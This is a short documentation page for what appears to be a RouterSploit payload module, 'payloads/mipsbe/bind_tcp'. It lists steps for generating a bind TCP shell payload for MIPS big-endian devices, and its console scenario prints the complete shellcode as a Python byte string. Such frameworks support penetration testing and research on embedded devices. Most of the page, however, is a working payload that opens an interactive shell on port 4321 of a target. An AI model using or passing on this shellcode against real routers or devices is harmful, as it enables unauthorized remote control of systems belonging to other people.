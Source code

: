 ## Description

Module generates payload that creates interactive tcp bind shell for MIPSBE architecture.

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use payloads/mipsbe/bind_tcp`
  3. Do: `set rport 4321`
  4. Do: `run`
  5. Module generates mipsbe bind shell tcp payload

## Scenarios

```
rsf > use payloads/mipsbe/bind_tcp
rsf (MIPSBE Bind TCP) > set rport 4321
[+] rport => 4321
rsf (MIPSBE Bind TCP) > run
[*] Running module...
[*] Generating payload
[+] Building payload for python
payload = (
    "\x27\xbd\xff\xe0\x24\x0e\xff\xfd\x01\xc0\x20\x27\x01\xc0\x28"
    "\x27\x28\x06\xff\xff\x24\x02\x10\x57\x01\x01\x01\x0c\x30\x50"
    "\xff\xff\x24\x0e\xff\xef\x01\xc0\x70\x27\x24\x0d\xff\xfd\x01"
    "\xa0\x68\x27\x01\xcd\x68\x04\x24\x0e\x10\xe1\x01\xae\x68\x25"
    "\xaf\xad\xff\xe0\xaf\xa0\xff\xe4\xaf\xa0\xff\xe8\xaf\xa0\xff"
    "\xec\x02\x10\x20\x25\x24\x0e\xff\xef\x01\xc0\x30\x27\x23\xa5"
    "\xff\xe0\x24\x02\x10\x49\x01\x01\x01\x0c\x02\x10\x20\x25\x24"
    "\x05\x01\x01\x24\x02\x10\x4e\x01\x01\x01\x0c\x02\x10\x20\x25"
    "\x28\x05\xff\xff\x28\x06\xff\xff\x24\x02\x10\x48\x01\x01\x01"
    "\x0c\xaf\xa2\xff\xff\x24\x11\xff\xfd\x02\x20\x88\x27\x8f\xa4"
    "\xff\xff\x02\x20\x28\x21\x24\x02\x0f\xdf\x01\x01\x01\x0c\x24"
    "\x10\xff\xff\x22\x31\xff\xff\x16\x30\xff\xfa\x28\x06\xff\xff"
    "\x3c\x0f\x2f\x2f\x35\xef\x62\x69\xaf\xaf\xff\xec\x3c\x0e\x6e"
    "\x2f\x35\xce\x73\x68\xaf\xae\xff\xf0\xaf\xa0\xff\xf4\x27\xa4"
    "\xff\xec\xaf\xa4\xff\xf8\xaf\xa0\xff\xfc\x27\xa5\xff\xf8\x24"
    "\x02\x0f\xab\x01\x01\x01\x0c"
)
```

